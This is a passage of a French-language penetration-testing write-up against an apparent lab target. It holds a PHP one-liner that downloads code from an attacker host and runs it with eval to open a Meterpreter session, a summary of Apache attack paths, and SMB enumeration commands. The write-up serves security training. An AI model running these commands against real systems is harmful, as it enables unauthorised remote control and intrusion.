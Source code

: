 ```bash
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.1.34:8080/IRS7Rw5rWhvs'));"
```
![alt text](image-32.png)
![alt text](image-33.png)
##### Résultat
- Session **Meterpreter** ouverte avec succès.  
- Contrôle complet de la machine cible via Apache/PHP.  


Ainsi, le service Apache a fourni **plusieurs vecteurs d’attaque critiques** :  
- Mauvaise configuration de **phpMyAdmin** (root sans mot de passe).  
- Application **Payroll** vulnérable à SQL Injection → récupération de mots de passe → SSH root.  
- Exploitation directe via **Metasploit (web_delivery)** → session Meterpreter.  

➡ Apache est clairement **le point d’entrée majeur** dans le système, offrant plusieurs chemins vers une compromission totale.

---
### 4.3 🔹 Samba (445/tcp – SMB 3.x–4.x)

#### 🎯 Objectif
Évaluer le service SMB pour identifier des partages non sécurisés et tenter des exploits connus (RCE) sur Samba.

#### 🔎 Étape 1 – Identification
- Port détecté par Nmap : **445/tcp** (microsoft-ds / Samba smbd 3.x–4.x).
- Remarque : le port **139/tcp (NetBIOS-SSN)** n’apparaît pas ouvert dans nos scans.


#### 🛠️ Étape 2 – Énumération (informations & partages)
Lister au maximum avant d’exploiter :

```bash
# Enumération complète
enum4linux -a 192.168.1.32

# Liste les partages (sans mot de passe)
smbclient -L //192.168.1.32/ -N
```
